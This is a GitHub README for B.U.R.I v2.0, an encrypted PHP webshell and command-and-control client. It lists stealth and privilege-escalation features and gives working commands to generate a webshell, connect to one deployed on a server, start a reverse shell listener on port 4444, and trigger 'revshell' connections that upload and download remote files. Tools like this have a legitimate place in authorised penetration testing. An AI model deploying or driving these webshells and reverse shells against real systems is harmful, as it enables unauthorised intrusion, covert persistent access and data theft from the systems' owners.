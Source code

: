 # B.U.R.I v2.0 - Encrypted C2 Webshell Client

<img width="563" height="729" alt="image" src="https://github.com/user-attachments/assets/fd44ac00-cf3f-46b1-be0e-a74669280599" />


B.U.R.I (Backdoor Utility for Remote Interaction) is a modular, encrypted command-and-control (C2) webshell client designed for secure and interactive remote administration. It provides a feature-rich interface for managing remote systems via an encrypted PHP webshell, supporting AES-GCM encryption, reverse shell capabilities, and extensible command modules.

## Features

- **Encrypted Communication**: Uses AES-GCM for secure client-server communication.
- **Interactive Shell**: Rich terminal UI with auto-completion, history, and syntax highlighting powered by `rich` and `prompt_toolkit`.
- **Modular Design**: Extensible command modules for custom functionality (e.g., file upload/download, privilege escalation).
- **Reverse Shell Support**: Built-in listener for reverse shell connections.
- **Cross-Platform**: Supports both Linux and Windows targets with dynamic environment detection.
- **Stealth Options**: Customizable POST parameters and proxy support for enhanced discretion.
- **Path Autocompletion**: Remote path completion using `ls` for efficient navigation.

## Installation

### PyPI
```
pip install buri-tod
pip install --upgrade buri-tod
```

### Prerequisites
- Python 3.8+
- Required Python packages:
  ```bash
  pip install requests rich prompt_toolkit pycryptodome
  ```

### Setup
1. Clone the repository:
   ```bash
   git clone https://github.com/joelindra/Buri.git
   cd Buri
   ```
2. Install dependencies:
   ```bash
   pip install -r requirements.txt
   ```
3. (Optional) Create a `modules` directory for custom command modules:
   ```bash
   mkdir modules
   ```

## Usage

B.U.R.I supports three main modes: creating a webshell, running an interactive session, and listening for reverse shells.

### 1. Create a Webshell
Generate an encrypted PHP webshell:
```bash
python buri.py create --path shell.php --password 'SuperSecretPass123'
```
This creates a PHP webshell at `shell.php` with the specified password for encryption.

### 2. Run an Interactive Session
Connect to a deployed webshell:
```bash
python buri.py run https://example.com/shell.php -p 'SuperSecretPass123' --param 'data'
```
- `--param`: Specify the POST parameter name (default: `data`).
- `--proxy`: Optional proxy (e.g., `http://127.0.0.1:8080`).

### 3. Start a Reverse Shell Listener
Listen for incoming reverse shell connections:
```bash
python buri.py listen --lhost 0.0.0.0 --lport 4444
```
Then, from the interactive shell, initiate a reverse shell:
```
revshell <listener_ip> 4444
```

### Example Commands
Once in the interactive shell:
- `whoami`: Display the current user.
- `cd /path/to/dir`: Change the remote working directory.
- `ls`: List files in the current directory (supports autocompletion).
- `upload /local/path /remote/path`: Upload a file to the remote system.
- `download /remote/path /local/path`: Download a file from the remote system.
- `revshell <ip> <port>`: Initiate a reverse shell to the specified listener.

### Screenshoot

<img width="1007" height="539" alt="image" src="https://github.com/user-attachments/assets/91932592-65bb-464a-b2d1-d36b2457cbda" />
